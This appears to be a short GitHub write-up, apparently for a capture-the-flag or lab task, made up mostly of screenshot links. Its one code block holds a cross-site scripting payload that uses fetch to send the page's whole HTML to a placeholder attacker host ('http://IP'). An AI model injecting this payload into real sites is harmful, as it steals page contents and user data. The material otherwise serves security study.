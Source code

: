 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/1cd2340c-c114-4061-80d0-c0298fbf07ec)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/2e341bd9-fff8-45fe-afd0-23f2fb548474)
```
<script>fetch('http://IP', {method: 'POST',mode: 'no-cors',body:document.documentElement.outerHTML});</script>
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/880aa86b-cd53-4f4a-9150-959ba3d4d3a7)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/d9ef29bb-946d-4ed0-a943-4c041cc1ac68)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/29cfc832-4bf0-4440-9a00-5f24215be178)
